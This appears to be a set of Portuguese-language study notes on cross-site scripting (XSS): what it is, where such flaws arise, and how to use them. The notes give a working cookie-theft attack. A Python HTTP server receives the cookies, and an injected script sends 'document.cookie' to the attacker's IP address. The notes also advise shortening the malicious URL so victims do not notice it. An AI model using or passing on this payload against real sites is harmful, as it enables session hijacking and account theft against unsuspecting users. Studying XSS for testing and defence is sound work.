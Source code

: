 ## O que é?

   - Injeção de código HTML em uma aplicação.


## Onde as falhsa ocorrem?

   - Campos de pesquisa, cadastro são aberturas de comunicação com o servidor. Podendo injetar código javascript na aplicação. 

   - Link gerado pelo hacker com códigos maliciosos, quando abertos por clientes da aplicação, podem enviar dados dele para o atacante. 

   - A falha é executada no browser do cliente (client side).


## Nível de Controle javascript no navegador

   - Basicamente tem acesso a todas as funcionalidades que um script tem, ou seja, controle total do navegador. Com isso, o atacante pode roubar cookies de acesso, sessão de usuário/admin, utilização de keyloggers, explorar falhas em outros plugins.


## Utilizando o XSS

   - Algumas formas de aproveitar essa vulnerabilidade

   ### Roubo de cookies

      - Basta utilizar a tag script "<script>alert(document.cookie)</script>". Pórem essa forma exibe a ação na tela de quem abrir a URL com o código malicioso.

      - Para ser mais discreto e receber a informação no computador do atacante, é preciso subir um servidor http simples em python, com o comando "python3 -m http.server 80" a porta é a sua escolha, lembrando que não pode haver outro servidor na mesma porta, portanto caso tenha um web server apache na porta 80, comando "sudo service apache2 start", ela deve ser parada com o comando "sudo service apache2 stop". 

      - Então, com o servidor criado, basta colocar no campo de busca da url onde apresenta XSS o script malicioso '<script>new Image().src="http://192.168.200.5/?="+document.cookie</script>' e apertar enter. Lembrando que o ip informado depende da máquina que estiver o servidor http e a porta deve ser a mesma informada na criação do server http. A URL que for informada, terá o cookie de acesso informado no servidor http. Com isso, se o cliente clicar no link e logar, o script enviará o cookie de acesso para o log do servidor que foi criado. 

      - Para melhorar ainda mais o ataque, é possível encurtar a url com um encurtador de url na internet para que fique menos evidente que o script malicioso será executado. 


## Observações

   - Importante checar a source page, para analisar o html, como ele é descrito. 

   - payload xss: existe na internet diversas formas diferente de tentar burlar a segurança do site com xss. Esse payload tem escritas diferentes de tags script que testam essa vulnerabilidade. 